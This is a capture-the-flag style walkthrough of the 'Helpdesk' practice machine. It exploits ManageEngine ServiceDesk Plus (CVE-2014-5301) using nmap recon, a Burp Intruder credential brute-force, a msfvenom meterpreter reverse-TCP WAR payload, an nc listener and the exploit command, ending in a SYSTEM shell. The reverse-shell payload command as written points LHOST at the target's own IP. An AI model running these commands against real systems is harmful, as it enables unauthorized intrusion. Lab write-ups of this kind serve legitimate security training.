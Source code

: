 ```yaml
---
title: Helpdesk
date: 2024-02-05
tags:
  - OSCP
  - PG Practice
  - TJ Null
  - Windows
  - Easy
---
```


![info](./info.png)

# Recon
## Nmap
```
nmap -sC -sV -Pn 192.168.229.43
```
![nmap](./nmap.png)

The scan results indicate several open ports on the target system, including port 8080, which is running an Apache Tomcat/Coyote JSP engine 
hosting ManageEngine ServiceDesk Plus. Among these ports, port 8080 stands out as the best first course of action due to its potential for 
hosting web services and possibly providing access to the ManageEngine ServiceDesk Plus application. This port could be a valuable entry point 
for further exploration and potential exploitation of the target system.

# Vulnerability Identification and Exploitation
![home](./home.png)
Accessing port 8080 reveals the homepage of ManageEngine, as indicated by the version displayed in the bottom right corner. This suggests that 
the port is actively hosting ManageEngine ServiceDesk Plus.

Upon searching for an exploit for the identified version of ManageEngine ServiceDesk Plus, I found a relevant exploit at the following 
link: [CVE-2014-5301.py](https://github.com/PeterSufliarsky/exploits/blob/master/CVE-2014-5301.py). This exploit targets vulnerabilities associated 
with the specific version of ManageEngine ServiceDesk Plus, potentially providing a means for unauthorized access or further compromise of the system.

The script instructs us to create a msfvenom payload using
```
msfvenom -p java/meterpreter/reverse_tcp LHOST=192.168.229.43 LPORT=4444 -f war > shell.war
```

Now, the script also needs a valid username and password combination
- I will use Burp to capture the login request and send it to intruder
- set the type of attack to cluster bomb and create two entry points

![burp-intruder](./burp-intruder.png)

I found the username password combination `guest:guest`
- we can use this combination for the python script
- before executing the script start a listener

```
nc -lnvp 4444
```

```
python CVE-2014-5301.py TARGET_HOST TARGET_PORT guest guest WARFILE
```

My command looks like the following
```
python CVE-2014-5301.py 192.168.229.43 8080 guest guest shell.war
```

We now have a shell onManageEngine as the user nt authority\system
- the flag is `proof.txt` in `C:\Users\Administrator\Desktop`

![proof](./proof.png)


# Summary
We explored the process of identifying and exploiting vulnerabilities in ManageEngine ServiceDesk Plus, running on a target system with open port 8080. Utilizing reconnaissance techniques such as Nmap scanning, we discovered the presence of ManageEngine ServiceDesk Plus and identified a relevant exploit (CVE-2014-5301). By crafting a malicious payload and leveraging Burp Suite for capturing login credentials, we successfully gained unauthorized access to the system. This exploit granted us a shell as the user "nt authority\system," enabling us to retrieve the flag located at C:\Users\Administrator\Desktop\proof.txt. 

Join me for the next machine soon for more exciting challenges and security insights!

+10 points